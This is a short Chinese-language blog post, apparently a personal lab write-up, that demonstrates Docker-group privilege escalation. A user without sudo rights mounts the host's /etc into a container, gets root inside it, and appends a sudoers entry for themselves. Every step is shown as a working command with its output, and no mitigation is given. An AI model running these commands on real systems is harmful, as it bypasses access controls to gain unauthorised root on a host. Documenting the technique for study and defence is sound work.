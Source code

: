 ```yaml
---
layout: post
title: "Docker提权案例"
subtitle: "介绍一种docker提权场景"
date: 2022-06-21
author: "Cheney.Yin"
header-img: "//imgloc.com/i/iADI63"
tags:
 - Docker
 - 提权
 - 用户组
 - sudo
---
```


# docker 提权案例

假设存在用户`tom`，该用户无法`sudo`，但属于`docker`组。
首先，创建用户，

```shell
sudo useradd -m tom
```
查看用户当前信息，
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom)
```
将用户加入到`docker`组，
```shell
sudo gpasswd -a tom docker
Adding user tom to group docker
```
查看用户信息，可以看到已经成功加入组。
```shell
id tom
uid=1002(tom) gid=1002(tom) groups=1002(tom),1001(docker)
```
切换登录`tom`，可以成功执行`docker`相关命令。
```shell
su tom
[tom@cheney-hp cheney]$ docker ps -a
CONTAINER ID   IMAGE      COMMAND                  CREATED        STATUS                           PORTS     NAMES
5facb46f63a9   registry   "/entrypoint.sh /etc…"   20 hours ago   Exited (2) 19 hours ago                    registry
e27bbc62b96c   busybox    "sh"                     25 hours ago   Exited (137) About an hour ago             busybox
```
目前，用户`tom`无法执行`sudo`。
```shell
sudo ip addr
tom is not in the sudoers file.  This incident will be reported.
```

接下来，我们借助`docker`进行提权。

```shell
[tom@cheney-hp cheney]$ docker run -itd -v /etc:/etc --name ubuntu ubuntu /bin/bash
b0483f78382d8413a7a6d6e9bc8ceb62fe8819c3ffced1907d7fac95b3034e66
```

 把本地`/etc`映射进容器，进入容器后，登录用户为`root`。

```shell
[tom@cheney-hp cheney]$ docker exec -it ubuntu /bin/bash
root@b0483f78382d:/#
```

在容器内把`tom`加入到`sudoers`文件，

```shell
root@b0483f78382d:/# echo 'tom ALL=(ALL) ALL' >> /etc/sudoers
```

退出容器，测试是否可以正常执行`sudo`。

```shell
[tom@cheney-hp cheney]$ sudo ip addr
[sudo] password for tom:
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
```

背后原理，后续补充。
